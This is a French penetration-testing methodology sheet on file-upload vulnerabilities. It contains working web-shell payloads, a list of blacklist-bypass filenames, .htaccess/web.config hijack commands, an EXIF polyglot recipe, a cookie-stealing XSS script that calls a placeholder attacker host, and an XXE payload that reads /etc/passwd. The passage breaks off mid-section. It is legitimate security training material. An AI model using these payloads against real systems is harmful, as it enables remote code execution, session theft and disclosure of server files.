

# File Upload — Méthodologie d'exploitation

!!! warning "Cadre légal"
    À utiliser exclusivement en laboratoire, CTF, ou test d'intrusion couvert par une autorisation écrite.

## 1. Objectif et périmètre de la méthodologie

L'objectif de cette fiche est de démontrer qu'une fonctionnalité d'upload permet de déposer un fichier dont le nom, le type déclaré ou le contenu n'ont pas été suffisamment validés, et d'évaluer l'impact réel de ce dépôt en fonction du traitement appliqué au fichier après upload.

Le comportement de sécurité à démontrer : l'application accepte un fichier dont au moins un des quatre attributs (nom, type MIME déclaré, contenu binaire, taille) n'est pas correctement vérifié, **et** le fichier déposé devient exploitable du fait de la configuration du serveur en aval (interprétation comme script, accès public, inclusion ultérieure).

**Variantes couvertes par cette fiche :**

- Déploiement d'un web shell via contournement du `Content-Type` déclaré.
- Contournement de listes noires d'extensions (extensions alternatives, obfuscation de nom, détournement de fichiers de configuration `.htaccess`/`web.config`).
- Contournement de la validation de contenu (vérification de dimensions, magic bytes, fichiers polyglottes via métadonnées EXIF).
- Exploitation de race conditions entre écriture temporaire et validation/déplacement du fichier, y compris en upload par URL distante.
- Exploitation sans RCE : Stored XSS via fichier HTML/SVG, XXE via documents structurés (DOCX/XLSX/SVG).
- Upload via la méthode HTTP `PUT`.

**Non couvert par cette fiche** (absent du cours source, à traiter séparément si pertinent) : l'exploitation détaillée d'une XXE confirmée (techniques d'exfiltration, OOB XXE) — le cours renvoie explicitement à une fiche XXE dédiée ; l'exploitation d'un Path Traversal via le nom de fichier au-delà de la mention du risque de remplacement de fichier critique — à croiser avec la fiche LFI/Path Traversal si une telle primitive est confirmée ; le détail des scanners antivirus ou heuristiques pouvant intervenir dans l'étape de validation en sandbox, non décrits techniquement dans le cours.

### Principe de raisonnement

La démarche part d'un principe central rappelé par le cours : **un dépôt de fichier réussi n'est dangereux que si le serveur l'interprète ou le sert d'une façon exploitable**. Il faut donc toujours traiter deux questions séparément — « puis-je déposer ce fichier ? » et « que devient ce fichier une fois déposé ? » — avant de conclure à un impact. Le raisonnement progresse de la validation la plus faible (nom/MIME déclaré, entièrement contrôlés par le client) vers la plus robuste (contenu binaire réel), puis vérifie systématiquement le comportement du serveur en aval (exécution, interprétation navigateur, parsing XML) qui seul détermine l'impact final.

---

## 2. Conditions préalables et état de référence

### 2.1. Prérequis techniques

**Indispensables :**

- Une fonctionnalité d'upload accessible (formulaire `multipart/form-data`, endpoint d'API, ou méthode `PUT` exposée).
- Pour un impact RCE : le répertoire de destination du fichier doit permettre l'interprétation de scripts par le serveur web (handler configuré sur l'extension finale stockée), condition à vérifier et non à supposer.
- Pour un impact XSS : le fichier déposé doit être servi directement (sans forçage de téléchargement) et, idéalement, depuis le même domaine que l'application pour permettre le vol de cookies de session.
- Pour un impact XXE : une fonctionnalité serveur qui traite effectivement le contenu XML du fichier (génération de miniature, extraction de métadonnées, conversion), pas seulement son stockage.

**Fréquents mais non systématiques :**

- Une validation reposant uniquement sur le `Content-Type` déclaré ou l'extension du nom de fichier — fréquent mais pas garanti ; une validation de contenu (magic bytes, dimensions) peut être présente.
- Un traitement en deux temps (sandbox temporaire puis déplacement) créant une fenêtre de race condition — dépend de l'architecture de l'application, à observer plutôt qu'à présumer.
- Un chemin de stockage prévisible — à vérifier via la réponse d'upload ou par convention observée, non garanti.

**À vérifier sur la cible, non supposés à l'avance :**

- Le serveur web utilisé (Apache/Nginx/IIS) et sa sensibilité à la casse des extensions, qui conditionne la pertinence de l'obfuscation de casse.
- La présence d'un parseur XML en aval du stockage (docx/xlsx/svg) et sa configuration vis-à-vis de la résolution des entités externes.
- La disponibilité de méthodes HTTP superflues (`PUT`, `DELETE`) sur le répertoire d'upload.

### 2.2. Établir le comportement normal

Avant tout test, observer le fonctionnement légitime de la fonctionnalité d'upload :

- **Requête initiale** : structure complète de la requête `multipart/form-data` (nom de champ, `filename`, `Content-Type` déclaré par le client, boundary) pour un upload légitime.
- **Réponse à un upload légitime** : code de réponse, présence d'une URL ou d'un chemin de fichier dans la réponse (JSON ou autre), éventuelle prévisualisation.
- **Nom de stockage final** : le nom original est-il conservé, partiellement transformé, ou entièrement régénéré (UUID/hash) ?
- **Répertoire de stockage** : accessible directement par URL, servi depuis le même domaine que l'application, ou isolé ?
- **Comportement sur un fichier refusé** (ex. extension non prévue par le métier) : message d'erreur précis — une erreur mentionnant explicitement une extension bloquée révèle une liste noire ; une erreur générique de type « type de fichier non autorisé » sans détail peut indiquer une liste blanche.
- **En-tête `Allow`** d'une requête `OPTIONS` sur le répertoire ou l'endpoint d'upload, pour détecter la présence de méthodes HTTP superflues.

Cette référence permet de distinguer un rejet dû à une validation stricte (liste blanche) d'un rejet dû à une règle contournable (liste noire), et de savoir si le chemin de stockage sera déterminable pour la suite des tests.

---

## 3. Reconnaissance : où rechercher la vulnérabilité ?

### 3.1. Surfaces de test

| Élément à examiner | Pourquoi cette surface est pertinente | Contrôle disponible | Observation initiale | Hypothèse de vulnérabilité | Premier test |
|---|---|---|---|---|---|
| Champ `Content-Type` de la partie multipart | Donnée entièrement contrôlée par le client, parfois utilisée seule pour valider le type | En-tête `Content-Type` de la partie fichier | `Content-Type` cohérent avec le contenu réel lors d'un upload légitime | La validation ne porte que sur cette valeur déclarée, sans inspection du contenu | Uploader un fichier PHP avec `Content-Type: image/jpeg` déclaré |
| Extension du nom de fichier (`filename=`) | Détermine le handler serveur appliqué lors d'une requête ultérieure sur le fichier stocké | Nom de fichier fourni dans `Content-Disposition` | Extensions acceptées/refusées pour un upload légitime vs un upload avec extension dangereuse directe | Filtrage par liste noire incomplète, ou absence de filtrage | Tester une extension dangereuse directe (`.php`), puis des variantes si refusée (3.2) |
| Upload de `.htaccess` / `web.config` | Permet de redéfinir la politique d'exécution du répertoire indépendamment de toute liste noire applicative | Contenu du fichier déposé | Comportement de l'upload d'un fichier sans extension reconnue ou à nom spécial | Le dépôt de ces fichiers n'est pas explicitement bloqué par nom | Uploader un `.htaccess`/`web.config` minimal et observer son acceptation |
| Contenu binaire du fichier | Teste si une validation de contenu (dimensions, magic bytes) est appliquée au-delà du nom/MIME déclaré | Octets du fichier envoyé | Résultat d'un upload de script brut sans structure d'image | Absence de vérification de contenu, ou vérification de magic bytes seule sans contrôle de structure complète | Uploader un script PHP brut (sans structure d'image) puis, si rejeté, un fichier avec magic bytes valides |
| Timing entre upload et accès au fichier | Pertinent si l'architecture traite le fichier en deux temps (sandbox puis déplacement) | Timing des requêtes (upload puis GET immédiat) | Latence observable entre la réponse d'upload et la disponibilité effective du fichier | Fenêtre de race condition entre écriture temporaire et validation/déplacement | Envoyer une requête d'upload suivie immédiatement d'une requête GET sur le chemin prévisible |
| Type de fichier accepté pour un usage non-image (avatar, pièce jointe, document) | Un format HTML/SVG/DOCX/XLSX accepté peut permettre XSS ou XXE sans nécessiter de RCE | Format de fichier accepté par le métier | Formats de fichiers listés comme acceptés dans l'interface ou la documentation | Un format interprété par le navigateur (HTML/SVG) ou par un parseur XML (DOCX/XLSX/SVG) est accepté | Uploader un fichier HTML/SVG minimal avec un script, ou un DOCX/XLSX/SVG contenant une entité externe |
| Méthode `OPTIONS` sur le répertoire ou l'endpoint d'upload | Révèle la présence de méthodes HTTP alternatives pour déposer un fichier | En-tête `Allow` de la réponse | Liste des méthodes autorisées | La méthode `PUT` est activée et permet un dépôt direct sans passer par le formulaire | Envoyer une requête `OPTIONS`, puis tenter un `PUT` si la méthode est listée |

Aucune de ces surfaces n'est nécessairement vulnérable : chacune correspond à un point de validation potentiellement insuffisant ou à un comportement serveur en aval potentiellement exploitable, ce qui justifie leur examen systématique.

### 3.2. Indices et faux positifs

**Observations qui peuvent suggérer la vulnérabilité :**

- Un upload accepté avec une extension dangereuse directe (`.php`, `.asp`, `.jsp`) sans aucun rejet.
- Un message d'erreur mentionnant explicitement une extension bloquée (révèle une liste noire, donc potentiellement contournable).
- Une réponse d'upload contenant un chemin ou une URL de stockage directement accessible.
- Une réponse `Allow` incluant `PUT` sur un répertoire d'upload.

**Observations qui ne suffisent pas à confirmer la vulnérabilité :**

- Un upload accepté : ne prouve pas encore que le fichier est exécutable ou exploitable — reste à vérifier le traitement serveur en aval (section 2, point 2.3 du cours : un fichier exécutable non configuré peut simplement afficher son code source ou générer une erreur).
- Un rejet sur l'extension `.php` brute : ne prouve pas l'absence de vulnérabilité, car de nombreuses extensions alternatives peuvent rester interprétées (`.phtml`, `.pht`, `.shtml`, variantes ASP/JSP).
- Une validation de dimensions réussie (le fichier est une image valide) : ne prouve pas l'absence de payload, car un fichier polyglotte passe cette vérification tout en contenant du code malveillant dans ses métadonnées.

**Comportements normaux susceptibles d'être confondus avec la faille :**

- Un fichier exécutable uploadé mais dont le handler n'est pas configuré sur le répertoire de destination : peut produire une erreur ou afficher le code source en clair sans que cela démontre une exécution de code — c'est une divulgation d'information, pas une RCE.
- Un upload accepté avec un nom de fichier entièrement régénéré (UUID) : même si le contenu est malveillant, l'absence de chemin déterminable peut rendre l'exploitation impraticable sans une fuite d'information complémentaire.

**Vérifications complémentaires nécessaires :**

- Toujours tenter l'exécution effective du fichier déposé (requête GET sur son chemin) plutôt que de considérer l'acceptation de l'upload comme une preuve suffisante.
- Comparer le comportement d'upload avec et sans altération du `Content-Type`, pour isoler si la validation dépend uniquement de cette valeur déclarée.

---

## 4. Séquence de tests : démarche pas à pas

### Étape 1 — Dépôt direct et contournement du `Content-Type` déclaré

**Objectif**

Vérifier si la validation du type de fichier repose uniquement sur l'en-tête `Content-Type` déclaré par le client, sans inspection du contenu binaire réel.

**Prérequis**

Fonctionnalité d'upload accessible, comportement de référence établi (section 2.2).

**Hypothèse**

Le backend compare uniquement la valeur de `Content-Type` fournie dans la partie multipart à une liste de valeurs attendues, sans vérifier le contenu effectif du fichier.

**Action à effectuer**

Envoyer une requête multipart avec un payload PHP, un nom de fichier `.php`, mais un `Content-Type` falsifié en `image/jpeg` :

```http
POST /upload HTTP/1.1
Host: cible.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Length: 312

------WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/jpeg

<?php system($_GET['cmd']); ?>
------WebKitFormBoundaryXYZ--
```

**Observations à examiner**

Code de réponse à l'upload, présence d'un chemin/URL de fichier dans la réponse, message de refus éventuel.

**Résultat positif**

L'upload est accepté (pas de message de refus, chemin retourné) : la validation par `Content-Type` seul est contournée — reste à vérifier l'exécution effective (étape 5).

**Résultat négatif ou ambigu**

Upload refusé avec un message mentionnant l'extension (`.php`) plutôt que le `Content-Type` : indique un filtrage basé sur le nom de fichier plutôt que (ou en plus de) la validation MIME — orienter vers l'étape 2.

**Interprétation**

Un refus à cette étape ne signifie pas l'absence de vulnérabilité : il indique seulement que cette couche de validation précise (MIME déclaré) n'est pas, à elle seule, la faille exploitable.

**Étape suivante**

Si accepté → étape 5 (vérification de l'exécution). Si refusé → étape 2 (bypass de liste noire par extension alternative).

**Erreurs fréquentes**

Conclure à une protection robuste après un seul refus sans avoir testé les variantes d'extension (étape 2) ni de contenu (étape 3).

---

### Étape 2 — Contournement de liste noire par extension alternative ou obfuscation de nom

**Objectif**

Déterminer si le filtrage par extension repose sur une liste noire incomplète ou un traitement non récursif/sensible à des variantes de nom.

**Prérequis**

L'étape 1 a échoué, ou le cours d'origine indique explicitement un filtrage par extension (message d'erreur mentionnant le nom de fichier).

**Hypothèse**

La liste noire ne couvre pas l'ensemble des extensions interprétées par le serveur cible, ou le traitement du nom de fichier est contournable par obfuscation.

**Action à effectuer**

Tester successivement, en conservant un `Content-Type` cohérent avec une image si cela a été nécessaire à l'étape 1 :

```text
shell.php5
shell.php7
shell.phtml
shell.pht
shell.shtml           # Server Side Includes Apache
shell.asa / shell.cer / shell.asax   # Variantes ASP/ASP.NET sur IIS
shell.jsp / shell.jspx / shell.jsw / shell.jsv   # Variantes JSP

# Obfuscation de nom
shell.pHp             # Variation de casse
shell.php.jpg         # Extension multiple
"shell.php "          # Espace final
shell.php.            # Point final
shell%2Ephp           # Encodage URL du point
shell.php%00.jpg      # Null byte (environnements anciens)
shell.php;.jpg        # Point-virgule (certains serveurs Java/Tomcat)
shell.p.phphp         # Nettoyage non récursif de "php"
```

**Observations à examiner**

Code de réponse à chaque variante, message d'erreur (change-t-il selon la variante ?), chemin retourné en cas d'acceptation.

**Résultat positif**

Au moins une variante est acceptée sans message de refus : indique une liste noire incomplète ou un filtre non robuste à l'obfuscation testée — reste à vérifier si le serveur interprète réellement cette extension (étape 5), car l'acceptation à l'upload ne garantit pas l'exécution.

**Résultat négatif ou ambigu**

Toutes les variantes testées sont refusées : indique potentiellement une liste blanche stricte plutôt qu'une liste noire — passer à l'étape 3 (validation de contenu) plutôt que de multiplier les variantes de nom sans nouvelle hypothèse.

**Interprétation**

Le fuzzing systématique de ces variantes est nécessaire car un filtre peut bloquer une forme (`.php`) tout en laissant passer une autre (`.pHp`, `.php.`) selon l'implémentation exacte de la comparaison de chaînes.

**Étape suivante**

Si une variante est acceptée → étape 5. Si toutes échouent → étape 2bis (détournement de fichier de configuration) ou étape 3 (validation de contenu).

**Erreurs fréquentes**

S'arrêter après avoir testé uniquement la variation de casse sans tester les autres catégories d'obfuscation (extension multiple, encodage, caractères de fin) ; confondre une acceptation à l'upload avec une preuve d'exécution.

---

### Étape 2bis — Détournement de fichier de configuration (`.htaccess` / `web.config`)

**Objectif**

Vérifier si le dépôt d'un fichier de configuration serveur local est possible, ce qui permettrait de redéfinir la politique d'exécution du répertoire d'upload indépendamment de toute liste noire applicative.

**Prérequis**

Les extensions dangereuses directes et leurs variantes (étape 2) sont bloquées. Le serveur cible est identifié comme Apache (pour `.htaccess`) ou IIS (pour `web.config`).

**Hypothèse**

Le filtre applicatif ne bloque pas explicitement les noms de fichiers `.htaccess` ou `web.config`, souvent absents des listes noires car dépourvus d'extension classique ou considérés comme non dangereux par eux-mêmes.

**Action à effectuer**

*Apache :*

```bash
# Étape 1 : upload de .htaccess redéfinissant le handler pour une extension triviale
curl -F "file=@.htaccess" https://cible.com/upload
# Contenu de .htaccess : AddType application/x-httpd-php .xyz

# Étape 2 : upload du shell avec l'extension désormais interprétée comme PHP
curl -F "file=@shell.xyz" https://cible.com/upload

# Étape 3 : exécution
curl "https://cible.com/uploads/shell.xyz?cmd=id"
```

*IIS :* uploader un `web.config` définissant un handler pour une extension triviale (`*.xyz` associée à `php-cgi.exe`), puis déposer le fichier avec cette extension.

**Observations à examiner**

Acceptation du dépôt du fichier de configuration, puis résultat de la requête d'exécution sur le fichier à extension triviale.

**Résultat positif**

Le fichier de configuration est accepté et la requête sur `shell.xyz` retourne le résultat de la commande injectée : confirme un contournement total des listes noires applicatives via redéfinition de la politique d'exécution du répertoire.

**Résultat négatif ou ambigu**

- Le fichier de configuration est explicitement rejeté par nom : indique une protection spécifique sur ces noms de fichiers, cohérente avec la recommandation de remédiation du cours.
- Le fichier est accepté mais sans effet sur l'extension triviale : la configuration par fichier local peut être désactivée au niveau du serveur (`AllowOverride None` sous Apache).

**Interprétation**

Un refus spécifique de `.htaccess`/`web.config` par nom, distinct d'un refus générique par extension, indique une protection délibérée contre ce vecteur précis plutôt qu'un effet de bord d'une liste noire générale.

**Étape suivante**

Si positif → étape 5 (confirmation de l'impact). Si négatif → étape 3 (validation de contenu).

**Erreurs fréquentes**

Oublier de tester si `AllowOverride` est actif avant de conclure à un échec de la technique ; ne pas vérifier au préalable le type de serveur web réellement utilisé.

---

### Étape 3 — Contournement de la validation de contenu (magic bytes, dimensions)

**Objectif**

Vérifier si une validation du contenu binaire réel (dimensions d'image, signature magique) est appliquée, et si un fichier polyglotte peut la satisfaire tout en restant exploitable.

**Prérequis**

Les étapes 1, 2 et 2bis ont échoué, ou une validation de contenu est suspectée (ex. message d'erreur évoquant un « fichier image invalide »).

**Hypothèse**

La validation vérifie la structure ou la signature du fichier, mais pas l'absence de données additionnelles exploitables (métadonnées, octets suivant une signature valide).

**Action à effectuer**

1. Confirmer qu'un script brut est rejeté par la validation (comportement de référence) :

```bash
identify shell.php
# identify: no decode delegate for this image format
```

2. Construire un fichier polyglotte en injectant le payload dans les métadonnées EXIF d'une image JPEG valide, qui conserve une structure et des dimensions d'image légitimes :

```bash
exiftool -Comment='<?php system($_GET["cmd"]); ?>' image_valide.jpg -o polyglotte.jpg
exiftool polyglotte.jpg | grep -i comment
```

3. Uploader `polyglotte.jpg` tel quel.

**Observations à examiner**

Acceptation de l'upload du polyglotte (dimensions et magic bytes valides), code de réponse, chemin retourné.

**Résultat positif**

Le fichier polyglotte est accepté là où le script brut était rejeté : confirme que la validation de contenu porte sur la structure/signature mais pas sur l'absence de payload dans les métadonnées. Cela ne démontre pas encore une exécution : le fichier reste stocké avec une extension image (`.jpg`), non interprétée par défaut par le serveur.

**Résultat négatif ou ambigu**

Le polyglotte est également rejeté : la validation peut inclure une re-compression de l'image (reconstruction pixel par pixel, détruisant les métadonnées) — information non détaillée dans ce cours mais cohérente avec les contre-mesures les plus robustes documentées pour ce type de filtre.

**Interprétation**

L'acceptation d'un polyglotte ne constitue qu'une primitive de dépôt de contenu malveillant : son exploitation réelle nécessite un moyen de faire interpréter ce contenu comme du code (chaînage avec un détournement d'extension via `.htaccess`/`web.config`, ou avec une inclusion de fichier locale si une LFI est disponible par ailleurs).

**Étape suivante**

Si positif → chercher un vecteur permettant l'interprétation du fichier stocké (étape 2bis pour rediriger l'extension `.jpg` vers un handler PHP, ou vérifier une LFI disponible séparément). Si négatif → documenter une protection de contenu robuste et orienter vers les variantes sans RCE (étape 6, XSS/XXE) si les formats correspondants sont acceptés par ailleurs.

**Erreurs fréquentes**

Conclure à une RCE dès l'acceptation du polyglotte sans vérifier qu'un mécanisme d'interprétation du fichier stocké existe réellement.

---

### Étape 4 — Exploitation d'une race condition

**Objectif**

Vérifier si le fichier déposé est accessible et exécutable pendant la fenêtre entre son écriture temporaire et sa validation/déplacement ou suppression.

**Prérequis**

L'architecture de l'application traite apparemment l'upload en deux temps (délai observable, mention d'un scan antivirus ou d'une validation asynchrone). Un chemin prévisible pour le fichier temporaire ou final est nécessaire pour cibler la requête d'accès.

**Hypothèse**

Le fichier est brièvement accessible et exécutable à son emplacement avant que la vérification ne le supprime ou ne le déplace vers un emplacement non exécutable.

**Action à effectuer**

Envoyer en rafale, quasi simultanément :

1. Une requête d'upload du web shell.
2. Une requête GET répétée à haute fréquence sur le chemin prévisible du fichier, typiquement via un outil permettant un contrôle fin du timing (ex. Turbo Intruder sous Burp Suite).

Pour une fonctionnalité d'upload par URL distante : héberger le fichier malveillant précédé d'un padding important pour ralentir volontairement le téléchargement effectué par le serveur cible et élargir la fenêtre de course.

**Observations à examiner**

Réponses aux requêtes GET répétées : au moins une doit retourner le contenu exécuté (preuve que le fichier était accessible et interprété) avant qu'une suppression ou un déplacement ne rende les requêtes suivantes infructueuses.

**Résultat positif**

Au moins une requête de la rafale retourne le résultat de l'exécution du payload : la race condition est confirmée et exploitable.

**Résultat négatif ou ambigu**

- Aucune requête de la rafale n'aboutit : soit la fenêtre est trop étroite pour le volume de requêtes envoyé, soit il n'existe pas de fenêtre d'exploitation (déplacement/suppression atomique).
- Résultat non reproductible entre plusieurs tentatives : cohérent avec une fenêtre de course réelle mais étroite — augmenter le volume ou la fréquence des requêtes avant de conclure à un échec définitif.

**Interprétation**

Un échec après une seule tentative ne permet pas de conclure à l'absence de fenêtre de course, celle-ci pouvant être de l'ordre de la milliseconde ; un échec répété malgré un volume élevé de requêtes est un signal plus fiable d'une opération atomique.

**Étape suivante**

Si positif → étape 5. Si négatif après plusieurs tentatives à volume élevé → documenter l'absence de fenêtre exploitable et se concentrer sur les autres vecteurs (étapes 1 à 3).

**Erreurs fréquentes**

Tester avec un volume de requêtes insuffisant pour conclure de façon fiable ; ne pas élargir la fenêtre via le padding lorsque l'upload se fait par URL distante, alors que cette technique est spécifiquement documentée pour ce cas.

---

### Étape 5 — Confirmation de l'exécution (impact RCE)

**Objectif**

Démontrer que le fichier déposé lors des étapes précédentes est effectivement interprété par le serveur et permet l'exécution de commandes arbitraires.

**Prérequis**

Un fichier contenant un payload d'exécution a été déposé avec succès à un chemin connu (étapes 1, 2, 2bis, 3 ou 4).

**Hypothèse**

Le serveur applique un handler d'exécution sur l'extension finale du fichier stocké.

**Action à effectuer**

```bash
curl "https://cible.com/uploads/shell.php?cmd=id"
```

Adapter le nom de fichier et le paramètre au payload réellement déposé. Si plusieurs fonctions d'exécution sont disponibles dans le payload (`system`, `shell_exec`), tester une alternative en cas d'échec d'une fonction, certaines pouvant être désactivées via `disable_functions`.

**Observations à examiner**

Présence du résultat de la commande (`id`) dans la réponse, par opposition à l'affichage du code source brut ou à une erreur serveur.

**Résultat positif**

Le résultat de la commande système apparaît dans la réponse : exécution de code confirmée (web shell fonctionnel).

**Résultat négatif ou ambigu**

- Le code source du fichier est retourné en clair : le handler n'est pas configuré sur cette extension dans ce répertoire — divulgation de code source, pas RCE ; à documenter comme un impact distinct.
- Erreur 404/500 : le chemin de stockage réel diffère de celui supposé, ou le fichier a été renommé/déplacé.
- Réponse vide sans erreur : la fonction d'exécution utilisée peut être désactivée (`disable_functions`) ; tester les fonctions alternatives du payload.

**Interprétation**

Distinguer explicitement une divulgation de code source (fichier non interprété mais lisible) d'une exécution de code réelle : ce sont deux niveaux d'impact différents nécessitant des preuves différentes.

**Étape suivante**

Si positif → documenter l'impact (section 8). Si négatif par chemin incorrect → vérifier la réponse d'upload pour le chemin exact. Si négatif par fonction désactivée → tester les fonctions alternatives du payload avant de conclure à un blocage total.

**Erreurs fréquentes**

Confondre l'affichage du code source PHP en clair avec un échec total, alors qu'il constitue déjà une divulgation d'information exploitable en soi.

---

### Étape 6 — Exploitation sans RCE : Stored XSS et XXE

**Objectif**

Démontrer un impact exploitable lorsque les voies de RCE (étapes 1 à 5) échouent, via l'upload de formats interprétés par le navigateur ou par un parseur XML côté serveur.

**Prérequis**

Un format HTML/SVG est accepté par la fonctionnalité d'upload (pour le XSS), ou un format structuré basé sur XML (`.docx`, `.xlsx`, `.svg`) est accepté et traité par un service serveur (génération de miniature, extraction de texte) (pour le XXE).

**Hypothèse**

*XSS :* le fichier est servi directement (sans forçage de téléchargement) depuis un domaine partagé avec l'application, permettant l'exécution de script dans le contexte de la victime.

*XXE :* le parseur XML traitant le document résout les entités externes.

**Action à effectuer**

*Stored XSS (fichier HTML ou SVG) :*

```html
<html>
<body>
<script>
document.location='https://attaquant.com/steal?cookie='+document.cookie;
</script>
</body>
</html>
```

```xml
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)">
</svg>
```

*XXE (injection dans un document structuré ou un SVG) :*

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

Pour un `.docx`/`.xlsx`, ce payload doit être inséré dans le fichier `document.xml` au sein de l'archive ZIP constituant le document.

**Observations à examiner**

*XSS :* exécution du script lors de la consultation directe du fichier par un navigateur (à tester en environnement contrôlé, sans cibler un tiers réel hors périmètre du test).

*XXE :* présence du contenu du fichier système ciblé (`/etc/passwd`) dans la réponse générée par le traitement du document (aperçu, extraction de texte, message d'erreur du parseur).

**Résultat positif**

*XSS :* le script s'exécute lors de l'ouverture directe du fichier déposé, confirmant l'absence de `Content-Disposition: attachment` et le partage de domaine avec l'application.

*XXE :* le contenu du fichier système cible apparaît dans la sortie du traitement du document, confirmant la résolution des entités externes par le parseur.

**Résultat négatif ou ambigu**

- *XSS :* le fichier est servi avec forçage de téléchargement (`Content-Disposition: attachment`) ou depuis un domaine séparé : le vecteur est neutralisé indépendamment du contenu du fichier.
- *XXE :* aucune donnée du fichier cible n'apparaît : le parseur peut avoir la résolution d'entités externes désactivée, ou le document n'est traité par aucun parseur XML côté serveur (simple stockage sans extraction).

**Interprétation**

Ces vecteurs sont indépendants de toute faille d'exécution serveur de type web shell : ils doivent être évalués même lorsque les étapes 1 à 5 échouent totalement, dès lors que les formats correspondants sont acceptés par la fonctionnalité d'upload.

**Étape suivante**

Si XXE confirmée → approfondir avec une fiche XXE dédiée (hors périmètre de cette fiche, selon le cours source). Si XSS confirmée → documenter l'impact (vol de session, défacement) dans le périmètre autorisé du test.

**Erreurs fréquentes**

Tester le XSS en ciblant un navigateur de victime réelle hors du périmètre autorisé du test, plutôt qu'en environnement contrôlé ; ne pas vérifier au préalable si le fichier est servi avec un en-tête forçant le téléchargement, ce qui neutralise le vecteur sans rapport avec le contenu du fichier.

---

### Étape 7 — Upload via la méthode HTTP `PUT`

**Objectif**

Vérifier si un dépôt direct de fichier est possible via la méthode `PUT`, indépendamment du formulaire d'upload classique et de ses éventuelles validations applicatives.

**Prérequis**

La méthode `PUT` doit être activée sur le répertoire ou l'endpoint ciblé.

**Hypothèse**

Le serveur ou l'API REST expose `PUT` sans validation équivalente à celle du formulaire d'upload classique.

**Action à effectuer**

```bash
curl -i -X OPTIONS https://cible.com/uploads/
```

Si `PUT` figure dans l'en-tête `Allow` de la réponse :

```http
PUT /uploads/shell.php HTTP/1.1
Host: cible.com
Content-Type: application/x-httpd-php
Content-Length: 41

<?php system($_GET['cmd']); ?>
```

**Observations à examiner**

Présence de `PUT` dans l'en-tête `Allow`, code de réponse au `PUT`, accessibilité et exécution du fichier déposé à l'URL correspondante (via l'étape 5).

**Résultat positif**

Le `PUT` est accepté et le fichier est exécutable à l'URL déposée : confirme un vecteur de dépôt direct contournant toute validation propre au formulaire d'upload.

**Résultat négatif ou ambigu**

`PUT` absent de l'en-tête `Allow`, ou présent mais retournant une erreur d'autorisation (401/403) : la méthode est listée comme supportée par le serveur mais peut rester protégée par une couche d'autorisation applicative distincte.

**Interprétation**

La présence de `PUT` dans `Allow` indique seulement que la méthode est activée au niveau du serveur, pas qu'elle est exploitable sans authentification ou autorisation — à vérifier séparément.

**Étape suivante**

Si positif → étape 5 (confirmation de l'exécution). Si négatif → documenter l'absence de ce vecteur et se concentrer sur le formulaire d'upload classique (étapes 1 à 4).

**Erreurs fréquentes**

Ne tester `PUT` que sur l'endpoint du formulaire principal sans vérifier d'autres chemins de répertoire d'upload potentiellement exposés différemment.

---

## 5. Arbre de décision : que faire selon le résultat ?



---

## 6. Construire la chaîne d'exploitation

### 6.1. Cas A — Dépôt direct d'un web shell (bypass simple ou liste noire)

1. **Point d'entrée** : champ de fichier d'un formulaire d'upload, ou endpoint `PUT`.
2. **Primitive technique** : contournement du `Content-Type` déclaré et/ou de l'extension (liste noire incomplète, obfuscation de nom).
3. **Déclenchement** : dépôt du fichier contenant le payload PHP avec une extension interprétée par le serveur.
4. **Effet intermédiaire** : le fichier est stocké à un chemin accessible publiquement, avec l'extension interprétée conservée.
5. **Aboutissement** : requête GET sur le fichier déposé, exécutant le payload.
6. **Preuve** : résultat de la commande système dans la réponse HTTP.

### 6.2. Cas B — Détournement de fichier de configuration

1. **Point d'entrée** : fonctionnalité d'upload n'excluant pas les noms `.htaccess`/`web.config`.
2. **Primitive technique** : dépôt d'un fichier de configuration redéfinissant le handler d'exécution pour une extension triviale.
3. **Déclenchement** : dépôt d'un second fichier avec cette extension triviale contenant le payload.
4. **Effet intermédiaire** : le répertoire interprète désormais l'extension triviale comme du PHP.
5. **Aboutissement** : requête GET sur le fichier à extension triviale, exécutant le payload.
6. **Preuve** : résultat de la commande système dans la réponse HTTP.

### 6.3. Cas C — Fichier polyglotte chaîné à un vecteur d'interprétation

